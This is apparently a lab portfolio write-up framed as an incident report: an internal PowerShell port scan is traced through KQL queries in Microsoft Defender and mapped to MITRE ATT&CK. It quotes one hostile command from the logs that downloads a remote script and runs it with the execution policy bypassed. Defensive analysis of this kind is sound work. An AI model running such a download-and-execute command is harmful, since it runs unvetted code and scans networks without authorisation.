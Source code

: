

# Sudden Network Slowdowns Project 
# Objective:
To investigate abnormal traffic patterns originating from within the network, identify any signs of lateral movement or misuse of built-in tools (e.g., PowerShell), and validate whether an internal host is responsible for the performance degradation.

---
# Tools & Technology:
- Azure Virtual Machine
- PowerShell 
- Microsoft Defender
- KQL Query

---
# Table of contents

- [Step 1) Create a Windows virtual machine in the Azure portal](#step-1-create-a-windows-virtual-machine-in-the-azure-portal)
- [Step 2) Log into the VM and disable the Windows Firewall](#step-2-log-into-the-vm-and-disable-the-windows-firewall)
- [Step 3) Run a PowerShell command:](#step-3-run-a-powershell-command)
- [Step 4) Create a Network Security Group](#step-4-create-a-network-security-group)
- [Step 5) Login to tenable](#step-5-login-to-tenable)
- [Step 6) Run a Basic Scan: Unauthenticated](#step-6-run-a-basic-scan-unauthenticated)
- [Step 7) Run a Basic Scan: Authenticated](#step-7-run-a-basic-scan-authenticated)
- [Difference in Scan Duration](#difference-in-scan-duration)

---


# 🛡️ Incident Report: Internal Port Scanning Activity on 10.0.0.0/16 Network
## 1. Summary
Incident Title: Unauthorized Internal Port Scanning via PowerShell
Date of Discovery: June 10, 2025
Reporting Team: Security Operations / Threat Hunting
Impacted Network Segment: 10.0.0.0/16
Affected Host: windows-target-1 (10.0.0.5)
TTPs Observed: T1046, T1059.001, T1078, T1105, T1204.002
Incident Status: Contained; Reimaging in progress

## 2. Preparation
### Observation:
The server team reported network performance degradation affecting older devices on the 10.0.0.0/16 internal network.

### Initial Assumption:
After ruling out external threats (e.g., DDoS), internal causes such as large file transfers or port scanning were considered. The environment allows unrestricted internal traffic and the use of scripting tools like PowerShell.

### Hypothesis:
A compromised internal host may be engaging in lateral movement or reconnaissance via port scanning.

## 3. Data Collection
Data Sources Queried:

DeviceNetworkEvents

DeviceProcessEvents

DeviceFileEvents

Focus Areas:

Failed network connections (potential scanning)

Suspicious process executions

File downloads or script execution activity

## 4. Data Analysis
### Step 1:
Analyzed DeviceNetworkEvents for failed outbound connection attempts.

kusto
Copy
Edit
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| summarize FailedConnectionsAttempts = count() by DeviceName, LocalIP
| order by FailedConnectionsAttempts desc
Result: IP 10.0.0.5 exhibited an unusually high number of failed connections.

### Step 2:
Filtered for all failed connection timestamps for IP 10.0.0.5:

kusto
Copy
Edit
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| where LocalIP == "10.0.0.5"
| order by Timestamp desc
Finding:
Connections were attempted to multiple ports in sequential order—indicating an automated port scan.

## 5. Investigation
### Step 3:
Pivoted to DeviceProcessEvents for host windows-target-1 and timestamp near suspicious activity:

kusto
Copy
Edit
let specificTime = datetime(2025-06-10T08:41:10.2458249Z);
DeviceProcessEvents
| where Timestamp between ((specificTime - 10m) .. (specificTime + 10m))
| where DeviceName == "windows-target-1"
| order by Timestamp desc
| project Timestamp, FileName, InitiatingProcessCommandLine, AccountName
Key Finding:
A PowerShell command was executed at 2025-06-10T08:37:51Z with the following line:

powershell
Copy
Edit
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/.../portscan.ps1' -OutFile 'C:\programdata\portscan.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1
Account:
Executed by SYSTEM — not expected behavior; not triggered by any admin.

## 6. Response
Actions Taken:

Logged into the device to verify script existence.

Confirmed the file portscan.ps1 existed under C:\ProgramData.

Isolated the host from the network.

Performed a full malware scan (no malware detected).

Escalated to IT for reimaging of the device to ensure integrity.

## 7. MITRE ATT&CK Mapping
markdown
Copy
Edit
- T1046 - Network Service Discovery  
  (Port scanning activity to identify open services)

- T1059.001 - Command and Scripting Interpreter: PowerShell  
  (Execution of PowerShell script to perform scan)

- T1078 - Valid Accounts  
  (Script executed under SYSTEM account)

- T1105 - Ingress Tool Transfer  
  (Script downloaded from external URL using Invoke-WebRequest)

- T1204.002 - User Execution: Malicious File  
  (Execution of suspicious PowerShell file)

- T1562.001 - Impair Defenses (if applicable)  
  (Not confirmed, but would apply if local defenses were bypassed or modified)
## 8. Lessons Learned / Improvement
Preventive Measures:

Implement internal network segmentation to reduce lateral movement risk.

Restrict PowerShell usage via GPO or allow-listing.

Apply egress controls and file reputation filtering for outbound web requests.

Increase visibility over SYSTEM-level activities on endpoints.

Detection Enhancements:

Create alerts for abnormal outbound connection spikes.

Monitor for suspicious PowerShell usage and external script downloads.

Correlate failed connection logs with script execution patterns.

## 9. Final Status
Threat Contained: ✅

Device Isolated: ✅

Malware Scan Result: Clean

Device Action: Ticket submitted for full rebuild

Follow-up: Review PowerShell execution policies and endpoint monitoring rules


